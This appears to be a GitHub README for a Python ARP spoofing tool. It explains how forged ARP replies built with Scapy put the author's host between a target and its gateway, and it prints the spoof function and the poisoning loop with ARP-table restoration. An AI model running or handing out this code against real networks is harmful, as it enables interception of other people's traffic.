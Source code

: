 # Arp_Spoof

Program in python to perform an attack technique in which an attacker sends ARP (Address Resolution Protocol) messages in order to associate your MAC address with the IP address of another host, such as the IP address of the default gateway, causing all traffic is sent to the attacker's IP address instead of the gateway's IP address.

## Used Modules

  * Scapy
  * optparse

## Scapy

The module is used to send and receive the ARP messages, in this case send responses to client, and the default gateway, this way the client will think that my host is the gateway and the gateway that i'm the client, and all the packet traffic will pass through my host.

```python
def spoof(target_ip, spoof_ip): 
    global mac 
    target_mac = mac
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose=False)
   
mac = get_mac(target_ip)
```
The function spoof receive like arguments the target_ip which is the IP that i want to send the responses pretending be another host, and the spoof_ip is the IP tha i want to pretend be. On the line 4 i create the packet that i'm gonna send to the target, with scapy.ARP(), putting the IP and MAC address of our target(the host) and putting the source IP like the spoof_ip(in this case the gateway), with that when the target reveive the response it will appear the IP of the authentic gateway, but actually my MAC address will be associated with this IP, and i'm gonna receive all the responses from it. The same thing will happen with the gateway to pretend be the authentic host.

```python
try:
   packets_sent_count = 0
   while True:
      spoof(target_ip, gateway_ip)
      spoof(gateway_ip , target_ip)
      packets_sent_count += 2
      print("\r[+] Packets sent: " + str(packets_sent_count), end="")
      time.sleep(2)
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C, Resetting ARP tables...")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)  
```
I have to send packets pretending being another host constantly, so i used one infinite loop (while True:), 
but I still put a 2 second of interval between sending packages to have at least control.<br>

With the exception when CTRL + C is typed the progam stops running, and use the restore functions to restore the ARP tables of the target host and the gateway.

